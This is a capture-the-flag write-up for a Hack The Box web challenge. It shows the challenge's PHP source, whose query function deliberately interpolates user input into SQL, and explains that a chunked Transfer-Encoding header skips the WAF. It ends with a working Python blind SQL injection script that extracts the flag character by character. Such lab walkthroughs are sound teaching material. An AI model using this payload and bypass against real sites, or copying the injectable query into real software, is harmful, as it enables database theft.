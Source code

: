 ```yaml
---
title: Hackthebox Challenge - 0xBOverchunked
date: 2024-02-28
categories: [Writeups, Hackthebox Challenge]
tags: [CTF, Web, easy]
---
```


# 0xBOverchunked - EASY

## Description

<Sup>Author: @dhmosfunk</sup><br>
Are you able to retrieve the 6th character from the database?

## Solution

![img-description](/assets/img/2024-02-28-0xBOverchunked/website.png)
**After start machine I see a website with a searching page.**

But nothing even I can search id from 1 to 5 but id 6 is not allowed.

`Let's see the source code of the page.`

**index.php**

```html
<script>
  $(document).ready(function () {
    $("#search-form").submit(function (event) {
      event.preventDefault();
      var searchValue = $("input[name=search]").val();
      $.ajax({
        url: "Controllers/Handlers/SearchHandler.php",
        method: "post",
        data: { search: searchValue },
        success: function (response) {
          $("#results").html(response);
        },
      });
    });
  });
</script>
```

```php
<?php
require_once '../Database/Cursor.php';
require_once '../WAF/waf.php';

if (isset($_SERVER["HTTP_TRANSFER_ENCODING"]) && $_SERVER["HTTP_TRANSFER_ENCODING"] == "chunked")
{
    $search = $_POST['search'];

    $result = unsafequery($pdo, $search);

    if ($result)
    {
        echo "<div class='results'>No post id found.</div>";
    }
    else
    {
        http_response_code(500);
        echo "Internal Server Error";
        exit();
    }

}
else
{
    if ((isset($_POST["search"])))
    {
        $search = $_POST["search"];
        if (waf_sql_injection($search))
        {
            // // <SNIP>
        }
        else
            // <SNIP>
    }
    else
    {
        echo "<div class='results'>Unsupported method!</div>";
        http_response_code(400);
    }

}

?>
```

**Cursor.php**

```php
<?php
require_once 'Connect.php';

function safequery($pdo, $id)
{
    if ($id == 6)
    {
        die("You are not allowed to view this post!");
    }

    $stmt = $pdo->prepare("SELECT id, gamename, gamedesc, image FROM posts  WHERE id = ?");
    $stmt->execute([$id]);

    $result = $stmt->fetch(PDO::FETCH_ASSOC);

    return $result;
}

function unsafequery($pdo, $id)
{
    try
    {
        $stmt = $pdo->query("SELECT id, gamename, gamedesc, image FROM posts WHERE id = '$id'");
        $result = $stmt->fetch(PDO::FETCH_ASSOC);
        return $result;
    }
    catch(Exception $e)
    {
        http_response_code(500);
        echo "Internal Server Error";
        exit();
    }
}

?>
```

in the `index.php` I see after click on search button it will send a request to `SearchHandler.php` with the value of the search input.

### Concept of Chunked Transfer Encoding

After analyzing the source code I see that the server is checking for `HTTP_TRANSFER_ENCODING` and if it is `chunked` then it will execute function unsafequery.

The first vuln I aim to exploit is `Request Smuggling` it working but if you see into source code I can use unsavequery to query id 6 but they always send data back with.

````php
echo "
<div class="results">No post id found.</div>
";```
````

That mean I need to use `Blind SQL Injection` to get the flag.

But in that point I don't know how to do it because I don't know about `Transfer-Encoding: chunked` so I search on google and I found a good article about it.

[https://sc.scomurr.com/http-request-smuggling-te-cl-vulnerability/](https://sc.scomurr.com/http-request-smuggling-te-cl-vulnerability/)

After learn about it I know that I can use `Transfer-Encoding: chunked` to bypass the WAF and get the flag.

### Exploit

```python
import requests
import string

possible = string.ascii_letters + string.digits + string.punctuation + ' '

url = input('Enter the URL: ')
path = '/Controllers/Handlers/SearchHandler.php'

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Transfer-Encoding': 'chunked'
}
ERROR_MSG = "Internal Server Error"

flag = "HTB"
while flag[-1] != '}':
    for i in possible:
        print(f'Test {i}',end='\r')
        query_data = f"search=1' and (select substr(gamedesc,{len(flag)+1},1) from posts where id='6')='{i}'--"
        hex_len = hex(len(query_data))[2:]
        header_data = f'{hex_len}\r\n'
        end_data = '0\r\n'

        data = header_data + query_data + end_data
        response = requests.post(url, headers=headers, data=data)

        if ERROR_MSG not in response.text:
            flag += i
            print(flag)
            break
```

